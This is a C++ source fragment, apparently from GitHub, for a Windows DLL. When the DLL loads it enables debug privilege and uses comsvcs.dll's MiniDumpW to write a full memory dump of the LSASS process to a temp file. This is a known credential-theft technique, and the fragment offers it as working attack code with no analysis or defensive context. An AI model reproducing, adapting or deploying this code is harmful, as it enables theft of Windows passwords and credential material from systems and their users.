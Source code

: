 ``` cpp
	}

	CloseHandle(hSnapshot);
	return 0;
}

void GetDebugPrivilege()
{
	BOOL fOk = FALSE;
	HANDLE hToken;
	if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken))
	{
		TOKEN_PRIVILEGES tp;
		tp.PrivilegeCount = 1;
		LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tp.Privileges[0].Luid);
		tp.Privileges[0].Attributes = true ? SE_PRIVILEGE_ENABLED : 0;
		AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);
		fOk = (GetLastError() == ERROR_SUCCESS);
		CloseHandle(hToken);
	}
}

void DumpLsass()
{
	wchar_t  ws[100];
	_MiniDumpW MiniDumpW;
	
	MiniDumpW = (_MiniDumpW)GetProcAddress(LoadLibrary(L"comsvcs.dll"), "MiniDumpW");
	swprintf(ws, 100, L"%u %hs", GetLsassPid(), "c:\\windows\\temp\\temp.bin full");

	GetDebugPrivilege();

	MiniDumpW(0, 0, ws);
}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
		DumpLsass();
		break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
